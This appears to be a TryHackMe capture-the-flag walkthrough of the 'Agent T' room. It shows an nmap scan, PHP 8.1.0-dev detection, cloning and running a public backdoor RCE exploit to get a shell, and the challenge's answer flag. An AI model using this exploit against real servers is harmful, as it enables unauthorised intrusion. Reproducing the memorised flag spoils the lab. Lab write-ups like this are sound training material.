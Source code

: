 # Agent T - TryHackMe Walkthrough

**URL**: [Agent T - TryHackMe](https://tryhackme.com/r/room/agentt)

**Target IP**: 10.10.25.62

## Description

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

**Task**: Find the flag.

---

## Step 1: Scan the Target IP using Nmap

We start by scanning the target IP to gather information about open ports and services. We'll use the `-A` option to enable OS detection, version detection, script scanning, and traceroute.

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 10.10.25.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:13 IST
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.25.62
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
80/tcp filtered http
Too many fingerprints match this host to give specific OS details
Network Distance: 5 hops

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   39.72 ms  10.17.0.1
2   ... 4
5   161.19 ms 10.10.25.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 689.75 seconds
```

**Analysis**:
- Port 80 is filtered, indicating it is likely protected by a firewall or similar mechanism.
- The scan shows the host is up and accessible.

## Step 2: Explore Port 80

Next, we navigate to the webpage hosted on port 80 at [http://10.10.25.62/](http://10.10.25.62/).

![Webpage](image.png)

The webpage looks normal with nothing special. To gather more information about the web technologies used, we utilize the Wappalyzer browser extension.

![Wappalyzer Results](image-1.png)

**Analysis**:
- Wappalyzer reveals the PHP version used by the server is 8.1.0. 

## Step 3: Search for Exploits

We search for any known exploits for PHP version 8.1.0. 

![Google Search](image-3.png)

During our search, we find a GitHub repository that contains an exploit for PHP 8.1.0-dev remote code execution.

![GitHub Repository](image-4.png)

**URL**: [PHP 8.1.0-dev Backdoor Remote Code Execution](https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git)

## Step 4: Clone the Repository

We clone the repository to our local machine to use the exploit.

```bash
┌──(root㉿neo)-[~]
└─# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
Cloning into 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2
Receiving objects: 100% (241/241), 1.66 MiB | 1.44 MiB/s, done.
Resolving deltas: 100% (128/128), done.
                                                                                                                                                                                              
┌──(root㉿neo)-[~]
└─# cd php-8.1.0-dev-backdoor-rce 
                                                                                                                                                                                              
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

## Step 5: Run the Exploit

We execute the Python script `backdoor_php_8.1.0-dev.py` from the cloned repository.

```bash
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# python backdoor_php_8.1.0-dev.py                                     
Enter the host url:
http://10.10.25.62/

Interactive shell is opened on http://10.10.25.62/ 
Can't access tty; job control turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

**Analysis**:
- The exploit successfully opens an interactive shell on the target server.

## Step 6: Explore the File System

We begin exploring the file system to locate any sensitive files or the flag.

```bash
$ cd /home

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cd /root

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

No significant files found so far. Let's use the `find` command to search for the flag.

## Step 7: Find the Flag

Using the `find` command to search for files named `flag.txt`.

```bash
$ find / -name flag.txt 2>/dev/null
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Flag Found**:
- `flag{4127d0530abf16d6d23973e3df8dbecb}`

